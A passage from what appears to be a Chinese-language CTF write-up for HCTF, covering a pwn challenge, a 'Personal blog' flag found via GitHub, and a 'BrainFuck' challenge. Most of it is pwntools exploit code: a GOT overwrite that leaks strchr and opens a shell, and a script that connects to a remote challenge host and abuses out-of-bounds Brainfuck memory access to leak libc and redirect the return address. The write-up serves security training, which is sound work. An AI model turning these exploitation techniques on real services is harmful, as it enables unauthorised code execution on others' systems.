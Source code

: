 ```python

# write strncpy@got
p.writeline('c')
p.writeline('1')
p.writeline(p32(0x90)+p64(0x602018-20)+p32(0x02)+p32(0x90)+p64(0x6020e0-20)+p64(0x0000008300000003)+p64(0x0000000000602048))
p.writeline('c')
p.writeline('1')
p.writeline(p32(0x400F13)+'\x00\x00\x00')
p.recv()

p.writeline('d')
p.writeline('3')
p.recvuntil('So give me student number\n')
strchr_addr = u64(p.recvline().strip()+'\x00\x00')
print hex(strchr_addr)

p.writeline('c')
p.writeline('1')
p.writeline(p64(strchr_addr+offset-0x30))
p.recv()

p.writeline('d')
p.writeline('7')

p.interactive()
```

##25 - Personal blog
Burpsuite 抓包发现 Server 是 GitHub，直接搜索 GitHub 得到https://github.com/LoRexxar/LoRexxar.github.io 然后在 here is f10g.html 发现 flag 是 "aGN0ZntIM3hvX0Ixb2dfSXNfTml1OGlfQjFvZ30="

解码得 flag：hctf{H3xo_B1og_Is_Niu8i_B1og}

##26 - BrainFuck

这题最开始没法做，后来题目改了才行。

用 brainfuck 生成的程序可以越界读写内存。这道题可以读写的是栈，那么就先 leak libc，然后直接修改 rip 跳到 Magic System Addresss 就好。

```python
from pwn import *
context(terminal='zsh')

p = remote('120.55.86.95', 22222)
p.recv()
p.writeline('d812bc7f1441e782d2fd6c4bf8b07842')
p.recvuntil('OK')

p.writeline('+[>,]>>>>>>>>>>>>>>>>>>>>>>>>.>.,<,<,>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>,>,>,>,>,>,>,>,]q')
p.recv()

do_system = 0x4652C
leak = 0x21ec5

p.write('A'*0x1ff+'\x00')
byte1 = p.recv(1)
byte2 = p.recv(1)
print enhex(byte1)
print enhex(byte2)
w_byte1 = ((ord(byte1) & 0xf0)+0x48) & 0xff
w_byte2 = (ord(byte2)+0x0c) & 0xff
p.write(chr(w_byte2))
p.write(chr(w_byte1))
p.write(chr(0xc5))
```